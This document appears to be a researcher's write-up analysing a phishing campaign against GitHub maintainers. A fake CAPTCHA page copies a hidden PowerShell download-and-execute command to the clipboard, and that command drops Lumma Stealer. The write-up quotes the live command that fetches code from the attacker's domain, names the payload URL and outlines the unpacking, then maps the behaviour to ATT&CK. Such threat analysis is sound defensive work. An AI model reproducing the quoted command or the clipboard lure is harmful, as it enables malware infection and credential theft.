




# Github Scanner Scam

Hello everybody, there is this new scam that's been going around and it has couple of forms but this one that we're talking about on this document is the Github version of it 
which has been targetting the creators and maintainers of open source repositories & they're probably hoping to get their credentials so then they could turn 
their open sourced repositories into a supply chain attack, this is all started when my friend showed me an phishing email that he recieved

The first thing I noticed is that it is an obvious phishing mail because that right there is not the official domain of Github.

The second thing i noticed is the sense of urgency (example: "immediate action required" etc. etc.)

Let's go ahead an investigate what is really going on, so I open up the website then I see the "I'm not a robot" button

I click on it and this is what happens

This kind of prompt is often phishing because legitimate websites won't ask you to run commands directly on your computer like this especially through a Run prompt in Windows.

Now for the sake of investigating, I'm gonna go ahead and follow it, so Windows button + R and then CTRL + V and then Enter

Look at the end we've got "I'm not a robot" and "reCAPTCHA Verification" and they even give you a number which doen't change by the way.

So we open up a hidden Power Shell and we execute code, let's go ahead & execute it & see what happens, with MiTM proxy I intercepted an endpoint

this endpoint contains a PowerShell script that is downloading and running an executable from the suspicious website, let me explain how this script works:

- It creates a WebClient object which is used to download the file from the internet.
- It sets the URL to https://github-scanner.com/l6E.exe, which is the source of the executable file being downloaded.
- It specifies a local file path ($env:TEMP\SysSetup.exe) which saves the file in the TEMP directory under the name SysSetup.exe.
- It uses the WebClient.DownloadFile method to download the executable from the URL and save it to the specified path.
- Finally it runs the downloaded executable using the Start-Process command.

But for the sake of investigating let's go ahead and download the executable

After executing it seems that it already hit some ``.shop`` domains in DNS

It seems like while the dropper and the distribution for this malware is still online but the actual C2 servers are not online meaning that the Lumma Stealer is still being dropped but it doesn't actually execute.

if you don't already know what Lumma Stealer does basically:

Lumma Stealer is a type of information-stealing malware designed to collect sensitive data from infected systems, including saved browser passwords, credit card information & cryptocurrency wallet credentials. 
It operates stealthily & often avoiding detection & it can exfiltrate the data to a remote server controlled by attackers. 
In this case the Lumma Stealer could allow attackers to compromise developer credentials and potentially turn open-source repositories into malicious distribution points.

Now let's go ahead & see if there is any persistence from the malware, the ones that are most likely going to be abused is task scheduler

So far I don't see any obvious signs of persistence which makes sense because Lumma Stealer is a very stealthy stealer

The first stage of the malware's architecture is .NET and it was obfuscated.

Obfuscation is the practice of deliberately making code difficult to understand. 
Malware developers use obfuscation to hide malicious functionality and making it harder for security researchers or antivirus software to detect and reverse-engineer the code. 
This is commonly done by using meaningless variable names, complex control flow and encryption of key strings or data.

After deobfuscating let's go ahead and see what we have here

We see here we have a bunch of DLLs that are being imported. .NET has the ability to what we might call "Native code" like the basic lower level Windows code

These lines indicate that the malware is interacting with several Windows API functions specifically

- Kernel32.dll for functions like FreeConsole and VirtualProtect which are typically used for memory management and modifying memory permissions/protection.
- User32.dll for calling Windows-specific functions.

VirtualProtect is often used in malware for changing memory protection to allow executing previously non-executable memory regions, potentially for injecting code or evading security measures.

Other methods like LoadLibraryA and CallWindowProcW are also used in process injection or hooking which is commonly found in malicious softwares.

First of all we have this for loop

we can see its doing some sort of manipulation & xoring a bunch of data

Then we have the entry point of the program appears in the Main method which is the unpack processs

Task.Run(): This asynchronous task runs some PersonalActivation() methods and a few other operations including a call to VirtualProtect which changes memory permissions (again this is commonly seen in malware).

A Thread.Sleep(1000) is also used to pause execution for 1 second before continuing.

Then we see the virtual protect 

``cs
Program.VirtualProtect(ref Program.AIOssncoiuuA[0], Program.AIOssncoiuuA.length, 64U, ref num);
``

The ``64u`` part here is going to become an executable code

Let's setup a breakpoint after that is called we should be able to get the memory, so we basically edit the packer to turn it into an unpacker that doesn't actually execute the code

We can see some stuff here but no dissassembly but it did get detected as a shellcode

The 2nd one got detected as a 64 bit, let's see why

As we can see it is clearly an PE

Althought it has been detected as pure assembly that could be because it's shellcode

And now we have what looks quite valid althought it is probably still not the final stage of this

The reason of this because I don't see any kind of indication, no domains etc.

Let's go back to the website and view its code for the "I'm not a robot" and how it works

The script is attaching an event listener to the button with the ID "verifyButton". When this button is clicked it triggers a series of actions.

The key action being performed is the execution of a hidden PowerShell command:

``
powershell.exe -w hidden -Command "iex (iwr 'https://github-scanner.com/download.txt').Content"
``

This PowerShell command uses Invoke-Expression (iex) to download and execute the contents of a remote file (download.txt) from the URL https://github-scanner.com.

This file contains malicious commands (as seen in the previous screenshots) which would be executed on the user's machine without their knowledge.

After downloading the file and running the PowerShell command the script then creates a text area element and sets its value to captchaText which is some pre-determined verification or a cover/decoy text.
The script then automatically selects this text & copies it to the clipboard (AKA ClipboardJacking) & removes the temporary text area from the document. 
This kind of clipboard manipulation is often used in scams to trick users into pasting harmful code elsewhere without realizing it.

The clipboard is suprisingly unprotected, so yeah websites can just modify your clipboard, in my opinion a potential security risks for a few reasons.

CAPTCHA and Verification:

The script mimics a CAPTCHA verification by adding a string "I am not a robot - reCAPTCHA Verification ID: 93752". 

This is a fake message that is used to make users believe they are completing a legitimate verification process while in reality the harmful PowerShell command is being executed in the background.

So in short this script is extremely malicious. because it attempts to:

- Download and execute a file via PowerShell, which could contain malware.
- Manipulate the clipboard to potentially trick users into pasting harmful code elsewhere.
- Fake a CAPTCHA verification to make the process appear legitimate.

After going through VT it does get detected as Lumma Stealer once we have unpacked a few layers, we also can see "Zard packer" detection

## Conclusion

In conclusion this GitHub Scanner Scam serves as a reminder of the evolving threats. 

By staying vigilant & adopting to security best practices & using available tools like 2FA and signed commits developers can protect themselves and their projects from becoming victims of supply chain attacks. 

Always be cautious of phishing emails and suspicious websites and if in doubt never run scripts or commands from unverified sources. 

a Captcha such as "I'm not a robot" etc. will never ask you to run a PowerShell script on your system.

------
# MITRE ATT&CK TTPs (Indicators)

1. Execution (TA0002)
Technique: Native API (T1106)
Adversaries may interact with the native OS application programming interface (API) to execute behaviors. In this case, the malware leverages Windows APIs like VirtualProtect to manipulate memory permissions for execution.

Technique: Shared Modules (T1129)
Malicious payloads are executed via the loading of shared modules. Adversaries may abuse legitimate processes to load malicious DLLs.

2. Persistence (TA0003)
Technique: Hijack Execution Flow (T1574)
Adversaries may hijack the execution flow to achieve persistence. In this case, DLL Side-Loading (T1574.002) is employed, where the adversary attempts to load missing or malicious DLLs into legitimate applications to maintain a foothold.

3. Privilege Escalation (TA0004)
Technique: Process Injection (T1055)
Adversaries inject code into foreign processes to evade process-based defenses and potentially elevate privileges. They allocate memory in foreign processes, inject a PE file, and write to foreign memory regions, allowing them to run malicious code with higher privileges.

Technique: Hijack Execution Flow (T1574)
Similar to Persistence, adversaries also use DLL Side-Loading (T1574.002) for privilege escalation by loading their malicious DLLs into trusted processes.

4. Defense Evasion (TA0005)
Technique: Obfuscated Files or Information (T1027)
The binary includes packed or crypted data to evade detection. The use of software packing (T1027.002) makes the malware harder to analyze by compressing the code (as seen with zlib compression ratio < 0.3).

Technique: Masquerading (T1036)
The malware creates files inside the user directory that masquerade as legitimate to avoid detection by users or security tools.

Technique: Process Injection (T1055)
Similar to Privilege Escalation, this technique is used to evade defenses by injecting malicious code into legitimate processes.

Technique: Indicator Removal (T1070)
Adversaries may attempt to remove or modify artifacts (like logs) to cover their tracks. They interact with the registry (T1112) to hide configuration information and remove evidence of their actions.

Technique: Virtualization/Sandbox Evasion (T1497)
The malware employs long sleep loops (>= 3 min) and memory allocation techniques to evade dynamic analysis in sandbox environments.

5. Impair Defenses (TA0005)
Technique: Disable or Modify Tools (T1562.001)
Adversaries create guard pages, often used to prevent reverse engineering and debugging. This technique is also used to disable security tools and hinder detection.

Technique: Hide Artifacts (T1564)
The malware may use hidden windows (T1564.003) to conceal malicious activity from users.

6. Credential Access (TA0006)
Technique: Input Capture (T1056)
Adversaries create a DirectInput object to capture keystrokes, potentially harvesting credentials and other sensitive information.

7. Discovery (TA0007)
Technique: Query Registry (T1012)
Adversaries interact with the Windows Registry to gather information about the system, including software configurations and installed programs.

Technique: Process Discovery (T1057)
The malware attempts to gather information about running processes on the system, which can help identify security software or high-value targets.

Technique: Virtualization/Sandbox Evasion (T1497)
Similar to Defense Evasion, this technique includes methods like sleep loops and memory allocation strategies to evade analysis in virtual environments.

8. Collection (TA0009)
Technique: Data from Local System (T1005)
Adversaries search the local system for sensitive data including configuration files and credentials which they may later exfiltrate.

Technique: Input Capture (T1056)
Again DirectInput objects are created to capture keystrokes and other sensitive data from the victim's machine.